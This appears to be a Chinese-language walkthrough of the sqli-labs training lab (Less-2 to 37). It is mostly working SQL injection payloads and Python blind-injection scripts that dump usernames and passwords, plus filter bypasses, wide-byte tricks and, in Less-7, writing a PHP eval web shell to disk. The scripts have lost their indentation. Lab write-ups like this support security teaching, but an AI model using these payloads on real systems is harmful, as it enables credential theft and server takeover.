








一、Introduction
第2~4题和Less-1的差不多其实，到了第五题,第六题开始盲注有点难了，学了一波mysql的操作还是有些收获
二、Hack
Less-2
传入一个单引号试探注入点，发现报错
..... syntax to use near '' LIMIT 0,1' at line 1推测和Less-1唯一的区别在于没有单引号，只是用数字进行查询，例如
SELECT * FROM users WHERE id=$id LIMIT 0,1所以payload和Less-1差别只在于一个单引号
-1 union select 1,2,3 %23
-1 union select 1,2,group_concat(schema_name) from information_schema.schemata%23
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1 union select 1,group_concat(username),group_concat(password) from users%23Less-3
题目名字叫，Single quotes with twist string (基于错误的GET单引号变形字符型注入)
测试 ?id=1’ 得到
...... syntax to use near ''1'') LIMIT 0,1' at line 1猜测语句
SELECT * FROM users WHERE id=('$id') LIMIT 0,1所以通过前面加 -1’) 闭合前面 尾部加%23 （#的url编码）中间就可以为所欲为了
SELECT * FROM users WHERE id=(' -1'){{为所欲为}}#23 ') LIMIT 0,1所以payload
-1')union select 1,2,3 %23
-1')union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1')union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1')union select 1,group_concat(username),group_concat(password) from users%23Less-4
尝试’并未发现报错，尝试”发现报错
syntax to use near '"1"") LIMIT 0,1' at line 1猜测语句
SELECT * FROM users WHERE id=("$id") LIMIT 0,1所以payload和3差不多只是单引号变双引号
-1")union select 1,2,3 %23
-1")union select 1,2,group_concat(schema_name) from information_schema.schemata%23'
-1")union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
-1")union select 1,group_concat(username),group_concat(password) from users%23Less-5 在导航页里显示的是要使用双查询
发现正常或者注入成功是这样的
而一旦出错会报错
显然是布尔注入而且猜测语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1当然就可以很多操作了，通过substr()、ascii()爆破也能得到一切
打个比方
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>80%23
//截取数据库下第一个表的第一个字符与80ascii值进行对比
找第二个字符只需要改成substr('xxx',2,1)即可。
找第二个表改成limit 1,1也可以直接拿这个盲注脚本爆破，参数自己改就行了
https://github.com/Kit4y/Sql-Injection/blob/master/Src/Script/Bool-injection.py
Less-6
Less-6和Less-5的关系就和1♂2，3♂4的关系一样 把’改成”在脚本上修改就很行了
文件操作
第七题提示Dump into outfile，即使用文件导出，然后第九第十题通过基于时间盲注的脚本也拿到了数据库所有数据，慢慢锻炼自己写py的能力吧。
Less-7
本关的标题是dump into outfile,意思是本关我们利用文件导入的方式进行注入,其实难点在于 猜测SQL语句和寻找网站的绝对路径，太菜了的我连自己本地都打了很久orz,不过也学到这个骚操作
首先通过测试猜源码
id')) LIMIT 0,1"?id=1')) or 1=1--+没有报错
然后可以利用文件导入导出，我一开始试了很久没写进去，找到了大师傅的博客
https://blog.csdn.net/HHTNAN/article/details/78520511,了解到MYSQL数据导出与导入，secure_file_priv参数需要设置
在mysql文件下的my.ini文件的[mysqld]写入
secure_file_priv=''至于为什么，请参考大师傅的博客
然后就很顺利
?id=1')) union select 1,2,3 into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
然后就可以写入一句话木马
?id=1')) union select 1,2,'<?php @eval($_post["mima"])?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
Less-8
和Less-5居然一样的？盲注脚本都一样,可以参考第五题
https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more
Less-9
题目叫做GET-Bind-Time based XXX时间盲注，所以专门查看了一下时间盲注和布尔注入的一些基础知识
时间盲注：
时间盲注利用前提条件：
页面上没有显示位，也没有输出SQL语句执行错误信息。 正 确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条 件之后，页面的返回速度明显慢了5秒。
时间盲注常用函数：
IF(判断语句,A,B)
如果判断语句为真，则返回A
为假则返回B
一般和布尔盲注语句配合使用：
if(ascii(substr(“payload”, 1, 1))=104, sleep(5), 1)如果第一个，号前的语句成立，则页面返回速度慢5秒
不成立，页面立即返回
时间盲注过程：
if((select count(schema_name) from information_schema. schemata)=9,sleep(5),1) //判断数据库个数
if((select length(schema_name) from information_schem a.schemata limit 0,1)=18,sleep(5),1)
if((select ascii(substr((select schema_name from info rmation_schema.schemata limit 0,1),1,1)))=105,sleep(5),1)//判断 第一个库第一个字符所以本题先疯狂试探,发现不管咋样都是返回一样的，和铁疙瘩一样，所以就能通过时间盲注
?id=1' and sleep(3)%23发现等了3秒钟才响应了
然后和盲注一样玩
1' and If(ascii(substr(database(),1,1))>115,1,sleep(5))--+然后通过这个脚本拿到当前数据库的名字
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
url_new = url + payload
time_start = time.time()
content = requests.get(url=url_new)
time_end = time.time()
if time_end - time_start >5:
return 1
result = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyz_'
for i in range(1,50):
flag=0;
for c in s:
payload = "'and if(substr(database(),%d,1)='%c',sleep(5),1)--+" % (i,c)
print("Database name: "+result+" | Payload: "+payload)
if check(payload):
flag=1;
result += c
break
if(flag==0):
print("Over")
break
print (result)
然后通过这个脚本得到第一个security数据表
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
url_new = url + payload
time_start = time.time()
content = requests.get(url=url_new)
time_end = time.time()
if time_end - time_start >5:
return 1
result = ''
panduan = ''
ll=0
s = r'0123456789abcdefghijklmnopqrstuvwxyz'
for i in range(1,100):
for c in s:
payload = "'and if(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),%d,1)='%c',sleep(5),1)--+" % (i,c)
print("Table_name name: "+result+" | Payload: "+payload)
if check(payload):
result += c
break
if ll==len(result):
print ('table_name: '+result)
break
ll = len(result)
print (result)Less-10
和第九题一样 , 将单引号换成双引号就好了
?id=1" and sleep(1)%23脚本和图九差不多只要修改一下闭合的单引号换成双引号
Less-11
先试试万能密码//一下的payload都是对于username的输入，密码框暂时可以随意输入2
admin ' or 1=1#发现登录成功了

然后查看字段数目和显示位
1' order by 3 # //登录后报错
1' union select 1,2 # //两个登录位然后可以使用任意一个登录位来爆数据库
1' union select 1,group_concat(schema_name) from information_schema.schemata#
然后爆数据表名，字段名，和第一题差不多了
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
123' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
111' union select group_concat(username),group_concat(password) from users #Less-12
通过尝试和报错信息发现输入1”) or 1 #后可以用万能密码登录，接下来同上
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
1") union select group_concat(username),group_concat(password) from users #Less-13
万能密码测试发现
1') or 1#能登录成功，但是不回显，所以可以布尔注入或者时间盲注 ，我们发现登录成功出现的照片名字叫flag.jpg,而登录失败叫slap.jpg，所以可以通过这个线索来爆破
#!/usr/bin/env python
# encoding:utf8
import requests
import time
import sys
# config-start
sleep_time = 5
error_time = 1
# config-end
def getPayload(indexOfResult, indexOfChar, mid):
# admin' or ()--
column_name="schema_name"
table_name="schemata"
database_name="information_schema"
payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + " limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
payload = {"uname":"')or (" + payload + ")-- ","passwd":"admin"}
return payload
def exce(indexOfResult,indexOfChar,mid):
# content-start
url = "http://192.168.1.140/sqli-labs-master/Less-13/"
postData = getPayload(indexOfResult,indexOfChar,mid)
content = requests.post(url, data=postData).text
# content-end
# judge-start
if "<img src=\"../images/flag.jpg\" />" in content:
return True
else:
return False
# judge-end
def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
while left_number < right_number:
mid = int((left_number + right_number) / 2)
if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
left_number = mid
else:
right_number = mid
if left_number == right_number - 1:
if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
mid += 1
break
else:
break
return chr(mid)
def search():
for i in range(32): # 需要遍历的查询结果的数量
counter = 0
for j in range(32): # 结果的长度
counter += 1
temp = doubleSearch(i, j, 0, 128) # 从255开始查询
if ord(temp) == 1: # 当为1的时候说明已经查询结束
break
sys.stdout.write(temp)
sys.stdout.flush()
if counter == 1: # 当结果集的所有行都被遍历后退出
break
sys.stdout.write("\r\n")
sys.stdout.flush()
search()
Less-14
与13题差不多 把') 改为 "即可
1" or 1=1#登录成功不回显，魔改上面脚本即可
Less-15
与13题差不多 把') 改为'即可
1' or 1=1#登录成功不回显，魔改上面脚本即可
Less-16
与13题差不多 把') 改为")即可
1") or 1=1#登录成功不回显，魔改上面脚本即可
新知识点：报错注入
基于报错的盲注是通过输入特定语句使页面报错，网页中则会输出相关错误信息，从而是我们得到想要的基本信息——数据库名、版本、用户名，这已经成为一套已经成型的公式，然后用普通注入的方法进行注入就好了，所以总结一下这么几个公式
1.直接使用报错：
mysql> select 1,2 from user where id ="1" union select count(*),concat('/',(select database()),'/',floor(rand(0)*2))a from information_schema.columns group by a;
1062 - Duplicate entry '/nuaa_msc/1' for key '' 2、利用xpath函数—extractvalue报错
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),0x73));
1105 - XPATH syntax error: '~nuaa_mscs'concat里面甚至可以再放函数，如图用了group_concat，将用户名密码全部获得（但是好像输出长度有限定，只能输出一定长度结果）
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),'/',(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x73));
1105 - XPATH syntax error: '~nuaa_msc/articles'3、利用xpath函数—updatexml报错：
mysql> select 1,2 from user where id ="1" and updatexml(1,concat(0x7e,(select database()),0x7e),1);
1105 - XPATH syntax error: '~nuaa_msc~'Less-17
题目咋一看是一个重置密码的功能，其实可以通过延时注入来跑，这里用新学的知识点,任意选择上面的一种即可
passwd: 1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
uname: admin
Less-18
题目名字叫POST-Header Injection-Uagent field-Error based;
登录成功会出现user agent

可以使用postman 修改User-Agent,注意首先要登录成功
User-Agent : 1'or updatexml(1,concat('#',(database())),0),'','')#
爆表
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#爆字段
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')#Less-19
和18一样，只是把User-Agent改成Referer

Less-20
Cookie 注入 , 修改自身cookie , 后台获取到这个cookie后 , 会直接拿去数据库里面进行比较 , 比较的时候就有可能注入，登录成功后修改 cookie 即可
首先登录，然后修改cookie，可以通过谷歌Applocation直接修改为
'union select 1,group_concat(schema_name),3 from information_schema.schemata#
也可以通过脚本
import requests
url = "http://127.0.0.1/Less-20/"
postDate = {
'uname':'admin',
'passwd':'admin'
}
headers = {
'Host':'127.0.0.1',
'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
'Accept-Encoding':'gzip, deflate',
'Referer':'http://127.0.0.1/Less-20/index.php',
'Cookie':'uname=\' union select 1,group_concat(schema_name),3 from information_schema.schemata#',
'Connection':'keep-alive',
'Upgrade-Insecure-Requests':'1',
'Cache-Control':'max-age=0'
}
content = (requests.post(url, data=postDate, headers=headers).text)
print(content)Less-21
和上面差不多，但是这里的cookie用过了base64加密而且加上了括号
原始payload为
') union select 1,group_concat(schema_name),3 from information_schema.schemata#base64
JykgdW5pb24gc2VsZWN0IDEsZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhIw==同样的方式修改即可
Less-22
上同，改为双引号,转码前
" union select 1,group_concat(schema_name),3 from information_schema.schemata#转码后
IiB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoc2NoZW1hX25hbWUpLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGEjLess-23
过滤了# 和--+等闭合的符号，所以通过 or '1'='1 来闭合后面的引号,任然使用之前的报错原理
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1获取security数据库的所有表单
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
获取user表所有字段
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1获取username/password
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1如果长度不够，可以通过limit 0,1这样的手法拿到所有数据
Less-24
二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。
第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";由于对于我们的账号密码使用mysql_real_escape_string转义过。
本题可以采用二次注入
- 首先创建一个user叫做
admin'#,密码随意，我们可以看到，数据库中真的就出现了这么一条数据 - 然后使用
admin'#加上自己的密码登录 - 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
why?
首先我们看更新密码的查询语句为
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";这是因为上面的数据库更新语句，在用户名为 “admin’#” 时执行的实际是：
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";等同于
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23Less-25a
先寻找注入点
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23只有第三种没啥问题，所以本题就是不需要加引号直接注入
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23Less-26
空格与注释被过滤了,最后的注释可以使用or '1'='1 来闭合，
然后空格可以用这些代替
%09 = TAB键（水平）
%0a = 新建一行
%0c = 新的一页
%0d = return功能
%0b = TAB键（垂直）
%a0 = 空格
&&(%26%26) = and使用报错注入
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1这样是没问题的，然后爆库
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271然后不行了，黑人问号？
试试直接拿数据
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271

最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1表名
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1字段名
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1数据
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
100')union%a0select%a01,user(),('3Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='然后想拿数据
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='很好就报错了
然后发现有师傅提供了一种非常骚的做法,用/*%0a*/强行制造空格。awsl
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1表名
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1字段名
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1数据
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1Less-27-a
把单引号改成双引号即可
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1Less-28
1和1”正常回显，1’报错，单引号字符型。
2’&&’1’=’1回显为id=1，有小括号。因为当你有小括号的时候$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";变成$sql="SELECT * FROM users WHERE id=('2'&&'1'='1') LIMIT 0,1";
所以会变成id=1
看了下代码
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"",$id); //strip out /*
$id= preg_replace('/[--]/',"",$id); //Strip out --.
$id= preg_replace('/[#]/',"",$id); //Strip out #.
$id= preg_replace('/[ +]/',"",$id); //Strip out spaces.
$id= preg_replace('/[ +]/',"",$id); //Strip out spaces.
$id= preg_replace('/union\s+select/i',"",$id); //Strip out UNION & SELECT.
return $id;
}过滤了相连的union和select，这个可以复写绕过，或者使用其他代替空格,如下都可能可以代替空格
%0a
%0d
%20
%0b
%a0
/%0a/这题可以用%0a，使用%00截断
可以盲注
0')||left(database(),1)>'s';%00也可以绕过union select直接注入
333')union%a0select(1),(database()),(3)||('1
解释：
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$sql="SELECT * FROM users WHERE id=('333')union%a0select(1),(database()),(3)||('1') LIMIT 0,1";前面的333可以尽量大一些，不能用-1。
Less-28-a
感觉就像看错了题？28-a居然是在 Less 28 的基础上还注释掉了很多过滤。这样28的payload肯定可以直接打
给出一个强一点的过滤
$id = blacklist($id);
$hint = $id;
function blacklist($id)
{
$id = preg_replace('/or/i',"",$id);
$id = preg_replace('/and/i',"",$id);
$id = preg_replace('/[\/\*]/',"",$id);
$id = preg_replace('/[--]/',"",$id);
$id = preg_replace('/[#]/',"",$id);
$id = preg_replace('/[\/\\\\]/',"",$id);
$id = preg_replace('/[ +]/',"",$id);
$id = preg_replace('/[\s]/',"",$id);
$id = preg_replace('/select/i',"",$id);
$id = preg_replace('/union/i',"",$id);
$id = preg_replace('/union\s+select/i',"",$id);
return $id;
}末尾\i就会导致不区分大小写，统统过滤
Less-29
比较智障了吧，好像过滤什么，直接注入
0%27union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23Less-30
同上，只是单引号变双引号
0"union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23Less-31
同上，只是双引号加了括号
0")union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata%23宽字节注入
国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%df%5c就是一个汉字。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
先了解addslashes() 函数，就是转义函数
<?php
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str);
?>输出
Shanghai is the \"biggest\" city in China.内部实现就是
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string); //escape any backslash
$string = preg_replace('/\'/i', '\\\'', $string); //escape single quote with a backslash
$string = preg_replace('/\"/', "\\\"", $string); //escape double quote with a backslash所以我们输入
http://127.0.0.1/Less-32/?id=1%df'根据以上分析，发生如下转换：(%5c是\的十六进制)
%df%27====>(check_addslashes)====>%df%5c%27====>(GBK)====>運'$sql="SELECT * FROM users WHERE id='1運'' LIMIT 0,1"; #成功将单引号闭合，可以进行SQL注入。参考1：https://www.cnblogs.com/fengshui/p/9266830.html
参考2：https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html
无法添加单引号或者双引号，可以用16进制绕过-很骚的操作
Less-32

输入?id=1%df%27页面会报错说明单引符号起作用了。c?id=-1%df%27%20union%20select%201,2,3%20%23,有回显所以可以宽字节注入
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23Less-33
和上同，只是把自定义的转义函数改成内置的转义函数
?id=0%df%27 union select 1,group_concat(schema_name),2 from information_schema.schemata;%23Less-34
把get改成post了，注意不能直接在界面上输入，因为%什么的都会会浏览器转义，所以burp直接修改
admin%df'or 0 union select 1,group_concat(schema_name) from information_schema.schemata%23&passwd=&submit=Submit
Less-35
直接注入？回到第一关了233
0 union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23Less-36
使用了mysql_real_escape_string函数过滤
查看文档,下列字符受影响：
\x00
\n
\r
\
'
"
\x1a还是宽字节注入
0%df%27%20union%20selEct%201,group_concat(schema_name),2%20from%20information_schema.schemata;%23
-1%EF%BF%BD%27union%20select%201,user(),3--+Less-37
改成post
uname=0%df%27%20union%20selEct%20group_concat(schema_name),2%20from%20information_schema.schemata;%23&passwd=1&submit=Submit